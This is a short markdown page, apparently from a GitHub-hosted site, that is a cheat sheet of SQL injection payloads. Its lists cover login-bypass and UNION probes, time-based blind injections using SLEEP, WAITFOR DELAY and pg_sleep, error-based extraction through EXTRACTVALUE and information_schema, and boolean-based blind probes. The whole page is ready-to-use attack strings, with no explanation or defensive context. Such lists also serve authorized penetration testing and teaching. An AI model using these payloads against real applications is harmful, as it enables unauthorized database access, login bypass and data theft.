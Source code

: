 ```yaml
---
layout: default
title: SQL Injection Payloads
---
```


# 🗃️ SQL Injection Payloads

## Basic SQLi
```
' OR '1'='1
' OR 1=1--
' OR 1=1#
' OR 1=1/*
admin'--
admin'#
' UNION SELECT NULL--
' UNION SELECT 1,2,3--
```

## Time-based Blind SQLi
```
' AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND 'vRxe'='vRxe
'; WAITFOR DELAY '0:0:5'--
' OR pg_sleep(5)--
```

## Error-based SQLi
```
' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT version()), 0x7e))--
' AND (SELECT * FROM(SELECT COUNT(*),CONCAT(version(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)--
```

## Boolean-based Blind SQLi
```
' AND 1=1--
' AND 1=2--
' AND (SELECT SUBSTRING(@@version,1,1))='5'--
```